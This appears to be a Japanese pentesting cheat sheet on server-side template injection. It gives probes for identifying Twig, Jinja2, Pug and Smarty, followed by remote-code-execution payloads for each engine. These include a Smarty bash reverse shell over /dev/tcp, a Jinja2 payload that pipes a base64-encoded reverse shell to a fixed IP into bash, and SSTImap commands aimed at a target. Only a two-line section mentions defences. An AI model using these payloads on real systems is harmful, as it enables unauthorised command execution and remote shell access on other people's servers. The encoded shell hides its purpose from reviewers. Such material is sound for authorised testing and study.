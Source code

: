 # SSTI サーバー側テンプレートインジェクション

## テンプレートの判別

```
# Twig（PHP）
{{7*'7'}} -> 49

# Jinja2（Python）
{{7*'7'}} -> 7777777

# Pug/（旧称 Jade）（Node.js）
#{7*7} -> 49

＃Smarty
{'Hello'|upper} -> HELLO
```

## システムコマンド

### Pug

https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html?highlight=PUG#pugjs-nodejs

javascript コードを直接実行できる

```javascript
#{root.process.mainModule.require('child_process').spawnSync('ls', ['-al']).stdout}

#{global.process.mainModule.require('child_process').spawnSync('ls', ['-al']).stdout}
```

### Smarty

PHP コードを直接実行できる

```PHP
{system("ls")}

{exec("/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'")}
```

### Jinja2

https://jinja.palletsprojects.com/en/stable/

```Python
# objectクラスのサブクラス一覧
{{"".__class__.__mro__[1].__subclasses__()}}

# <class '_sitebuiltins._Helper'> を使って、
# subprocess.open("ls") を実行
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(["ls", "-al"])}}

# よりスマートな方法
{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjE0LjkwLjIzNS80NDQ1IDA+JjE=|base64 -d|bash').read()}}
```

```python
{% import os %}{{ os.system("whoami") }}
```

## SSTImap 自動化

### インストール

```shell
git clone https://github.com/vladko312/SSTImap.git
cd SSTImap
pip install -r requirements.txt
```

### 実行

```shell
python3 sstimap.py -X POST -u 'http://$TARGET/' -d 'page='
```

## セキュリティ

- ユーザー入力のサニタイズ
- 環境のサンドボックス化
